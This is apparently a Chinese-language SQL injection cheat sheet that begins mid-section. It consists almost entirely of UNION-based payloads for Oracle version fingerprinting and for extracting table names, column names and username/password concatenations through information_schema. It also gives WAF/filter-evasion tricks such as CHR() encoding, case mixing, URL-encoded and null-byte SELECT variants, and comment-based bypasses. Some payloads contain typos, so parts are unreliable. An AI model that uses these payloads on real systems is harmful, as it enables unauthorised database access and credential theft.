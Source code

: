 `'union select banner, null, null from v$version--`

`'union all select banner, null, null from v$version--`

> oracle

## 提取数据

1. 查询元数据表`information_schema`  

表名

`union select group_concat(table_name) from information_schema.tables where table_schema=database()`

字段名

`union select group_concat(column_name) from information_schema.columns where table_name=[table_name]`

数据

`union select concat(0x2b,username,0x2b,password) from [table_name]`

> 适用于ms-sql mysql

2. 在分析大型数据库以探查攻击目标时 最好是查找有用的列名称 而不是表 如:  
`' union select tables_name,column_name,null,null from information.schema where columns_name LIKE '%PASS%'`

## 避开过滤

1. ASCLL替换  
`select ename,sal from emp where enam'marcus'` 如下与左等同:  
`select ename,sal from emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)`

> oracle

或

`select ename,sal from emp where ename=CHR(109)+CHR(97)+CHR(114)+CHR(99)+CHR(117)+CHR(115)`

> mssql

2. 避免使用简单确认  
`SeLeCt`  
`%00SELECT`  
`SELSELECTCT`  
`%53%45%4C%45%43%54`  
`%2553%2545%254C%2545%2543%2554`

SQLi Filter Evasion Cheat sheet

```
#注释
' or 1=1#
' or 1=1/* (MySQL < 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
' /*!50000or*/1='1
' /*!or*/1='1

#前缀
+ – ~ !
' or –+2=- -!!!'2

#操作符：
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL

```